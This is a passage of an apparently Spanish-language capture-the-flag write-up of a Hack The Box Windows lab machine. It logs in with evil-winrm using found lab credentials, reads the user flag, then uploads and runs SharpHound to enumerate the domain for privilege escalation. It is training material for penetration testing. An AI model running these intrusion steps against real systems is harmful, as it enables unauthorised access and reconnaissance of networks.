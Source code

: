<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

Procederemos a conectarnos mediante **evil-winrm** y con las credenciales encontradas, comprobamos la flag de **user.txt**.

```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3rvice'
```

<figure><img src="../../../.gitbook/assets/733_vmware_3PG2S2pG7m.png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### BloodHound Enumeration with SharpHound

Procederemos a pasarnos al equipo que queremos comprometer el binario de `SharpHound.exe` y a recopilar toda la información del sistema.

```powershell
upload SharpHound.exe

./SharpHound.exe --CollectionMethods All
```

<figure><img src="../../../.gitbook/assets/739_vmware_B3kgvJkw6V.png" alt=""><figcaption></figcaption></figure>
